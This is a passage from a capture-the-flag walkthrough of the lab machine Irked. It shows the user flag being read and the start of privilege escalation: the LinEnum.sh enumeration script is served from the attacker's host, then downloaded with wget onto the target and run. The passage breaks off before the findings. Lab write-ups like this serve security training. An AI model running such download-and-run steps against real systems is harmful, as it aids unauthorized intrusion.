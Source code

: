 

Now I can get `user.txt`:



    djmardov@irked:~/Documents$ cat user.txt 
    4a66a78b...



## Privesc: djmardov --\> root

### Enumeration

I'll run [LinEnum.sh](https://github.com/rebootuser/LinEnum) to help
survey the box. I've already got it cloned to my box, so I'll go into
the directory and run the python webserver, `python3 -m http.server 80`.
Then I'll get it on Irked and run it.



    djmardov@irked:/dev/shm$ wget 10.10.14.14/LinEnum.sh
    --2019-04-04 09:01:24--  http://10.10.14.14/LinEnum.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 45650 (45K) [text/x-sh]
    Saving to: ‘LinEnum.sh’

    LinEnum.sh                                             100%[==============================================================================================================================>]  44.58K  --.-KB/s   in 0.04s  

    2019-04-04 09:01:25 (1.10 MB/s) - ‘LinEnum.sh’ saved [45650/45650]

    djmardov@irked:/dev/shm$ chmod +x LinEnum.sh
    djmardov@irked:/dev/shm$ ./LinEnum.sh -t
                                                           
    #########################################################
    # Local Linux Enumeration & Privilege Escalation Script #
    #########################################################
    # www.rebootuser.com
    # version 0.95
                                                  
    [-] Debug Info
    [+] Thorough tests = Enabled
    ...[snip]...



There's a bunch of output to scroll through, but this part jumps out to
me:


